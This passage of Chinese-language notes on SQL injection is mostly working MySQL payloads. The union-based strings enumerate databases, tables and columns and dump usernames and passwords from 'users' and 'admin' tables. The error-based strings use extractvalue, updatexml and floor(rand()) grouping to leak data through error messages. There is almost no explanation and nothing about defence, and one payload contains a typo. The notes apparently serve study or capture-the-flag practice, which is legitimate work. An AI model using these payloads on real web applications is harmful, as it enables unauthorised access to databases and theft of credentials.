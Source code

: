 - 获取详细信息

- ```sql
  1'union select 1,concat(usermpassword) from users --+
  1'union select 1,concat_ws("_",user,password) from users --+
  
  //获取数据库列表
  -1'union select schema_name,2 from information_schema.schemata --+
  
  //获取指定表
  -1'union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' --+
  
  //获取表的字段信息
  -1'union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' --+
  
  //获取字段内容
  -1'union select 1,concat_ws("_",username,password) from admin --+
  ```

### 报错注入

- 概念:利用数据库的某些机制,人为的制造出错误条件,使得查询结果能够出现在报错信息中,想办法让错误信息中可以显示数据库的内容

- 基本手法

- ```sql
  //extractvalue(arg1,arg2)-->arg1:xml文档,arg2:xpath语句,至少接收两个参数
  //mysql5.1以上
  
  1'and extractvalue(1,concat(0x3a,user(),0x3a) --+
  
  //在报错信息中查询出
  1'and extractvalue(1,arg2) --+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```sql
  //update(arg1,arg2,arg3),arg1为xml文档,arg2为指定位置的xpath字符串,arg3为string格式的新值
  
  1'and updatexml(1,concat(0x3a,(select user()),0x3a),1) --+
  
  1'and updatexml(1,arg2,1)--+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```
  //floor,返回向下取整的整数,只返回arg1的整数部分
  
  1'and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) --+
  
  1'and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) --+
  ```
